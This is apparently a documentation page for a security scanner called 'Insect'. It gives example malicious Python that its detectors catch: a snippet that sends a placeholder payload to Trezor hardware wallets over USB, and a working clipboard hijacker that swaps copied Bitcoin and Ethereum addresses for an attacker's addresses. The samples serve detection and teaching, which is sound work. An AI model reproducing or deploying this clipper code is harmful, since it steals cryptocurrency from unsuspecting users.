 ```python
    # Trezor device access
    trezor_vendor_id = 0x534c
    trezor_devices = usb.core.find(find_all=True, idVendor=trezor_vendor_id)
    
    for device in trezor_devices:
        # Send unauthorized commands
        device.write(0x01, b"malicious_payload")
```

**What Insect Detects:**
- Identifies attempts to access hardware wallet devices (Ledger, Trezor, KeepKey)
- Flags suspicious USB/HID device communication
- Detects unauthorized hardware wallet command sequences

**Why This is Critical:**
- Hardware wallets are considered the most secure way to store cryptocurrency
- Unauthorized access attempts indicate sophisticated attack methods
- Compromise of hardware wallets can lead to significant financial losses

### Cryptocurrency Stealer Behavior

**Vulnerable Code:**

```python
import pyperclip
import re
import time

def crypto_clipper():
    # Monitor clipboard for crypto addresses
    btc_pattern = r'[13][a-km-zA-HJ-NP-Z1-9]{25,34}'
    eth_pattern = r'0x[a-fA-F0-9]{40}'
    
    # Attacker's addresses
    attacker_btc = "1AttackerBitcoinAddress123456789"
    attacker_eth = "0xAttackerEthereumAddress1234567890abcdef"
    
    while True:
        # Monitor clipboard content
        clipboard_data = pyperclip.paste()
        
        # Replace legitimate addresses with attacker's addresses
        if re.match(btc_pattern, clipboard_data):
            pyperclip.copy(attacker_btc)
            log_stolen_address(clipboard_data, attacker_btc)
        
        elif re.match(eth_pattern, clipboard_data):
            pyperclip.copy(attacker_eth)
            log_stolen_address(clipboard_data, attacker_eth)
        
        time.sleep(0.1)  # Check every 100ms
```
